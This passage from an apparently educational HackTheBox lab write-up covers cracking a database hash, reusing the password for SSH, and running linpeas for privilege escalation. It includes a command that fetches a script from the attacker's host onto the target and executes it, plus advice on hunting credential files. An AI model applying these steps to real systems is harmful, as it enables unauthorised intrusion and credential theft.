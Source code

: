 We could run this through johntheripper or hashcat, but I always like to check [hashes.com](https://hashes.com/en/decrypt/hash) first, as it tends to be quicker for easy hashes. Sure enough, it gives us Matthew's password!

![A screenshot of hashes.com, showing that the has was solved. The password is censored.](https://github.com/massey-n/CTF-Writeups/blob/main/HackTheBox/images/image-3.png)

This is for a local mysql database, but we can check to see if they reused it for their login as well! On the attacking machine, I ran `ssh matthew@<IP>` with the recently discovered password, and it worked! Let's grab the user flag and work on escalating to root!

![A screenshot displaying the author's access to the user flag.](https://github.com/massey-n/CTF-Writeups/blob/main/HackTheBox/images/image-4.png)


# Horizontal Escalation

This part stumped me for quite a bit. No SUIDs, no sudo access, nothing worthwhile in MySQL, and seemingly no useful files. I ran linpeas again, and decided to dive a bit further in to the results.

If you are unfamiliar with linpeas, it is an excellent script that searches for potential privilege escalation points, outlining interesting spots in gold or red, depending on the severity. It can be installed with `sudo apt install peass` on your attacking machine. Then, run `linpeas` to traverse to the directory, and open up an http server with `python -m http.server <port>`. Then, on the target machine, run `cd /tmp && wget http://<attacking_ip>:<port>/linpeas.sh`. Follow this up with `chmod 777 linpeas.sh && ./linpeas.sh`. It will take a little while to run, but it's worth it. As I parse the file, I like to copy out anything potentially useful to avoid having to run it again.

After looking through each point of interest, I found two spots that stood out to me. Firstly, /etc/share/zoneminder/www/api/app/Config/database.php seems to hold some sort of zoneminder credential. It did not work to switch users, but the presentation of the credentials, coupled with the path, suggested that zoneminder was a service of some sort. Additionally, linpeas noticed that there were _four_ ports open, rather than the three we have interacted with so far. We have seen SSH (22), HTTP (80), and MySQL (3306), but it appeared that there was another service running on port 8080, which is often used for websites.

I should note that while I found this in linpeas, it can also be discovered by running netstat -tunl, which shows open listeners. I have added this to my methodology, as it seems quite useful for uncovering internal services that may not be as secure as public-facing ones.
